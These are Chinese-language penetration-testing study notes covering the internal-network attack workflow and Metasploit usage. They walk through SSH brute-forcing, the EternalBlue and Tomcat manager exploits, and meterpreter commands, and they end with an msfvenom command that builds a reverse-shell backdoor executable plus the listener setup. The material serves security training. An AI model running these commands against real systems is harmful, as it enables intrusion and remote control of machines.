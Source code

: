 ## 0x01 内网渗透流程

- 一般都是针对Windows系统进行内网渗透

1. 外部打点（外部攻击，如网站渗透getshell）
2. 内网信息收集（系统信息，网络信息，密码，防火墙信息等）
3. 提权
4. 横向渗透（同网段渗透）
5. 纵向渗透（跨网段渗透，如同一主机同时有两个网络环境的ip）
6. 权限维持
7. 痕迹清理

- 免杀

- 域渗透

  

## 0x02 外部打点

### 一、漏洞挖掘

1. 历史漏洞（RCE）
2. 0day
3. 手动挖掘owasp top 10

### 二、漏洞利用

1. 上传webshell

2. 反弹shell

3. 渗透测试框架 远控后门（Metasploit、CobaltStrike）

   

### 三、Metasploit

#### 1. Metasploit概述

- metasploit是一个集成的渗透测试框架

- 官网：https://metasploit.com

- github项目地址：https://github.com/rapid7/metasploit-framework

- 官方文档：https://docs.rapid7.com/metasploit/

- 官方视频：https://www.youtube.com/c/MetasploitR7

- 安装：

  wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
  chmod +x metasploit-latest-linux-x64-installer.run
  ./metasploit-latest-linux-x64-installer.run

#### 2. 基础构成

- modules
  - auxiliary:辅助模块,辅助渗透（端口扫描、登录密码爆破、漏洞验证等)
  - exploits:漏洞利用模块，包含主流的漏洞利用脚本，通常是对某些可能存在漏洞的目标进行漏洞利用。命名规则:操作系统/各种应用协议分类
  - payloads:攻击载荷，主要是攻击成功后在目标机器执行的代码，比如反弹shell的代码
  - post:后渗透阶段模块，漏洞利用成功获得meterpreter之后，向目标发送的一些功能性指令，如:提权等
  - encoders:编码器模块，主要包含各种编码工具，对payload进行编码加密，以便绕过入侵检测和过滤系统
  - evasion:躲避模块,用来生成免杀payload
  - nops:由于IDS/IPs会检查数据包中不规则的数据，在某些情况下，比如针对溢出攻击，某些特殊滑行字符串(NOPS x90x90...)则会因为被拦截而导致攻击失效。

- db

#### 3. 基础使用

1. msfdb init（初始化数据库，开启5432端口）
2. msfconsole（进入msf命令行接口）

### 4. 使用流程

1. 使用模块

   - 可以使用search查找相关模块

   - use 模块序号/模块全称
    ![image-20220704111546717](..\img\内网渗透-基础\image-20220704111546717.png)

2. 配置模块

   - show options或options查看配置

   - required是yes代表是必填项，若为空则需要手动配置

   - 选择相应配置项set配置参数
     ![image-20220704112314465](..\img\内网渗透-基础\image-20220704112314465.png)

3. 运行模块
   - run或exploit

### 5. 使用示例

- 爆破ssh服务

  1. search ssh scanner查找相关模块

     ![image-20220704115740588](..\img\内网渗透-基础/image-20220704115740588.png)

  2. use使用模块

     use auxiliary/scanner/ssh/ssh_login

  3. option查看配置选项

     ![image-20220704115817591](..\img\内网渗透-基础/image-20220704115817591.png)

  4. set配置参数

  5. run运行模块

- 爆破ftp
  1. search ftp auxilary scanner

- 永恒之蓝

  smb服务445端口，ms17_010

  1）使用模块

  - search ms_17_010
  - use 0

  2）配置模块

  - module options：
    - rhost 目标地址
  - payload options：
    - meterpreter  msf后渗透模块
    - windows/x64/meterpreter/reverse_tcp 系统版本/架构/协作的操作/操作方法
    - lhost 监听机地址
    - lport 监听端口
  - exploit target ：自动

  3）使用模块

  - run/exploit

- tomcat后台部署漏洞

  - search tomcat
  - use exploit/multi/http/tomcat_mgr_upload
  - show options
  - set rhost
  - set rport
  - set httpusername tomcat
  - set httppassword tomcat
  - set lhost
  - set lport
  - run


### 6. msfconsole 和 meterpreter相关命令

   - exit
   - background 当前会话放到后台
   - sessions 列出后台会话
   - sessions [ID] 进入会话
   - \>meterpreter shell 获取目标命令行
   - \>meterpreter getuid 获取当前用户信息
   - \>cmd chcp 65001 修改编码为utf-8
   - \>msf6 jobs 列出所有job
   - \>msf6 job -K 关闭所有
   - \>msf6 job -k  ID 关闭指定job

### 7. msfvenom 生成远控木马

1. 生成后门

​	msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f exe -o 123.exe

2. 攻击机开启监听

​	正常开启：

1. msfconsole
2. use exploit/multi/handler
3. set payload windows/x64/meterpreter/reverse_tcp
4. set lhost xxx.xxx.xxx.xxx
5. set lport xxxx
6. run

​	快捷开启：hander -p windows/x64/meterpreter/reverse_tcp -H 192.168.10.77 -P 12345

3. 靶机运行后门，上线meterpreter



